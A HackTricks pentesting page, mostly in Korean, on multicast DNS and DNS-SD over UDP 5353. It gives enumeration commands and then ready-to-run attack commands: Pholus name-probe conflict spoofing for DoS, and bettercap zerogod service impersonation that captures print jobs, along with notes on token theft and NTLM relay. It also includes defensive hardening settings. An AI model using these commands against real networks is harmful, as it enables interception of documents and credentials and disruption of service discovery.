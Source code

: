 # 5353/UDP Multicast DNS (mDNS) 및 DNS-SD

{{#include ../banners/hacktricks-training.md}}

## 기본 정보

Multicast DNS (mDNS)는 유니캐스트 DNS 서버 없이 로컬 링크 내에서 DNS와 유사한 이름 해석 및 서비스 검색을 가능하게 합니다. 이는 UDP/5353 및 멀티캐스트 주소 224.0.0.251 (IPv4)와 FF02::FB (IPv6)를 사용합니다. DNS 서비스 검색 (DNS-SD, 일반적으로 mDNS와 함께 사용됨)은 PTR, SRV 및 TXT 레코드를 통해 서비스를 열거하고 설명하는 표준화된 방법을 제공합니다.
```
PORT     STATE SERVICE
5353/udp open  zeroconf
```
Key protocol details you’ll often leverage during attacks:
- .local 영역의 이름은 mDNS를 통해 해결됩니다.
- QU (Query Unicast) 비트는 멀티캐스트 질문에 대해서도 유니캐스트 응답을 요청할 수 있습니다.
- 구현은 로컬 링크에서 출발하지 않은 패킷을 무시해야 하지만, 일부 스택은 여전히 이를 수용합니다.
- 프로빙/발표는 고유한 호스트/서비스 이름을 강제하며, 여기에서 간섭하면 DoS/“이름 점유” 조건이 발생합니다.

## DNS-SD 서비스 모델

서비스는 .local 아래에서 _<service>._tcp 또는 _<service>._udp로 식별됩니다. 예: _ipp._tcp.local (프린터), _airplay._tcp.local (AirPlay), _adb._tcp.local (Android Debug Bridge) 등. _services._dns-sd._udp.local로 유형을 발견한 후, 발견된 인스턴스를 SRV/TXT/A/AAAA로 해결합니다.

## 네트워크 탐색 및 열거

- nmap 대상 스캔 (호스트에서 직접 mDNS):
```bash
nmap -sU -p 5353 --script=dns-service-discovery <target>
```
- nmap 브로드캐스트 발견 (세그먼트를 듣고 모든 DNS-SD 유형/인스턴스를 열거):
```bash
sudo nmap --script=broadcast-dns-service-discovery
```
- avahi-browse (Linux):
```bash
# 서비스 유형 목록
avahi-browse -bt _services._dns-sd._udp
# 모든 서비스를 탐색하고 호스트/포트로 해결
avahi-browse -art
```
- Apple dns-sd (macOS):
```bash
# 모든 HTTP 서비스 탐색
dns-sd -B _http._tcp
# 서비스 유형 열거
dns-sd -B _services._dns-sd._udp
# 특정 인스턴스를 SRV/TXT로 해결
dns-sd -L "My Printer" _ipp._tcp local
```
- tshark로 패킷 캡처:
```bash
# 실시간 캡처
sudo tshark -i <iface> -f "udp port 5353" -Y mdns
# 오직 DNS-SD 서비스 목록 쿼리
sudo tshark -i <iface> -f "udp port 5353" -Y "dns.qry.name == \"_services._dns-sd._udp.local\""
```

Tip: 일부 브라우저/WebRTC는 로컬 IP를 숨기기 위해 임시 mDNS 호스트 이름을 사용합니다. 랜덤-UUID.local 후보가 네트워크에 보이면, mDNS로 해결하여 로컬 IP로 전환하세요.

## 공격

### mDNS 이름 프로빙 간섭 (DoS / 이름 점유)

프로빙 단계에서 호스트는 이름의 고유성을 확인합니다. 스푸핑된 충돌로 응답하면 새로운 이름을 선택하거나 실패하도록 강제됩니다. 이는 서비스 등록 및 발견을 지연시키거나 방지할 수 있습니다.

Example with Pholus:
```bash
# Block new devices from taking names by auto-faking responses
sudo python3 pholus3.py <iface> -afre -stimeout 1000
```
### 서비스 스푸핑 및 사칭 (MitM)

광고된 DNS-SD 서비스를 사칭하여 (프린터, AirPlay, HTTP, 파일 공유) 클라이언트가 당신에게 연결하도록 유도합니다. 이는 특히 유용합니다:
- _ipp._tcp 또는 _printer._tcp를 스푸핑하여 문서를 캡처합니다.
- 클라이언트를 HTTP/HTTPS 서비스로 유인하여 토큰/쿠키를 수집하거나 페이로드를 전달합니다.
- Windows 클라이언트가 스푸핑된 서비스에 대한 인증을 협상할 때 NTLM 릴레이 기술과 결합합니다.

bettercap의 zerogod 모듈(mDNS/DNS-SD 스푸퍼/사칭자) 사용:
```bash
# Start mDNS/DNS-SD discovery
sudo bettercap -iface <iface> -eval "zerogod.discovery on"

# Show all services seen from a host
> zerogod.show 192.168.1.42

# Impersonate all services of a target host automatically
> zerogod.impersonate 192.168.1.42

# Save IPP print jobs to disk while impersonating a printer
> set zerogod.ipp.save_path ~/.bettercap/zerogod/documents/
> zerogod.impersonate 192.168.1.42

# Replay previously captured services
> zerogod.save 192.168.1.42 target.yml
> zerogod.advertise target.yml
```
Also see generic LLMNR/NBNS/mDNS/WPAD spoofing and credential capture/relay workflows:

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

### Notes on recent implementation issues (useful for DoS/persistence during engagements)

- Avahi reachable-assertion 및 D-Bus 충돌 버그(2023)는 Linux 배포판에서 avahi-daemon을 종료시킬 수 있으며, 이는 재시작할 때까지 대상 호스트에서 서비스 검색을 방해합니다.
- Cisco IOS XE Wireless LAN Controller mDNS 게이트웨이 DoS(2024, CVE-2024-20303)는 인접 공격자가 높은 CPU를 유도하고 AP를 연결 해제할 수 있게 합니다. VLAN 간에 mDNS 게이트웨이를 발견하면 잘못된 형식이나 높은 비율의 mDNS에 대한 안정성에 유의하십시오.

## Defensive considerations and OPSEC

- Segment boundaries: 보안 구역 간에 224.0.0.251/FF02::FB를 라우팅하지 마십시오. mDNS 게이트웨이가 명시적으로 필요하지 않는 한 그렇습니다. 검색을 브리징해야 하는 경우, 허용 목록과 비율 제한을 선호하십시오.
- Windows endpoints/servers:
- mDNS를 통한 이름 해석을 강제로 비활성화하려면 레지스트리 값을 설정하고 재부팅하십시오:
```
HKLM\SYSTEM\CurrentControlSet\Services\Dnscache\Parameters\EnableMDNS = 0 (DWORD)
```
- 관리되는 환경에서는 기본 제공 “mDNS (UDP-In)” Windows Defender 방화벽 규칙을 비활성화하여(최소한 도메인 프로필에서) 인바운드 mDNS 처리를 방지하면서 홈/로밍 기능을 유지하십시오.
- 최신 Windows 11 빌드/GPO 템플릿에서는 “Computer Configuration > Administrative Templates > Network > DNS Client > Configure multicast DNS (mDNS) protocol” 정책을 사용하고 이를 비활성화로 설정하십시오.
- Linux (Avahi):
- 필요하지 않을 때 게시를 잠그십시오: `disable-publishing=yes`를 설정하고 `/etc/avahi/avahi-daemon.conf`에서 `allow-interfaces=` / `deny-interfaces=`로 인터페이스를 제한하십시오.
- `check-response-ttl=yes`를 고려하고 엄격히 필요하지 않는 한 `enable-reflector=yes`를 피하십시오; 반사할 때는 `reflect-filters=` 허용 목록을 선호하십시오.
- macOS: 특정 서브넷에 대해 Bonjour 검색이 필요하지 않을 때 호스트/네트워크 방화벽에서 인바운드 mDNS를 제한하십시오.
- Monitoring: `_services._dns-sd._udp.local` 쿼리의 비정상적인 급증이나 중요한 서비스의 SRV/TXT의 갑작스러운 변화를 경고하십시오; 이는 스푸핑 또는 서비스 사칭의 지표입니다.

## Tooling quick reference

- nmap NSE: `dns-service-discovery` 및 `broadcast-dns-service-discovery`.
- Pholus: 능동 스캔, 역 mDNS 스윕, DoS 및 스푸핑 도우미.
```bash
# Passive sniff (timeout seconds)
sudo python3 pholus3.py <iface> -stimeout 60
# Enumerate service types
sudo python3 pholus3.py <iface> -sscan
# Send generic mDNS requests
sudo python3 pholus3.py <iface> --request
# Reverse mDNS sweep of a subnet
sudo python3 pholus3.py <iface> -rdns_scanning 192.168.2.0/24
```
- bettercap zerogod: mDNS/DNS-SD 서비스를 발견하고, 저장하고, 광고하고, 사칭합니다(위의 예 참조).

## Spoofing/MitM

이 서비스에서 수행할 수 있는 가장 흥미로운 공격은 클라이언트와 실제 서버 간의 통신에서 MitM을 수행하는 것입니다. 민감한 파일(프린터와의 통신을 MitM)이나 자격 증명(Windows 인증)을 얻을 수 있을지도 모릅니다.\
자세한 내용은 확인하십시오:

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

## References

- [Practical IoT Hacking: The Definitive Guide to Attacking the Internet of Things](https://books.google.co.uk/books/about/Practical_IoT_Hacking.html?id=GbYEEAAAQBAJ&redir_esc=y)
- [Nmap NSE: broadcast-dns-service-discovery](https://nmap.org/nsedoc/scripts/broadcast-dns-service-discovery.html)
- [bettercap zerogod (mDNS/DNS-SD discovery, spoofing, impersonation)](https://www.bettercap.org/modules/ethernet/zerogod/)

{{#include ../banners/hacktricks-training.md}}
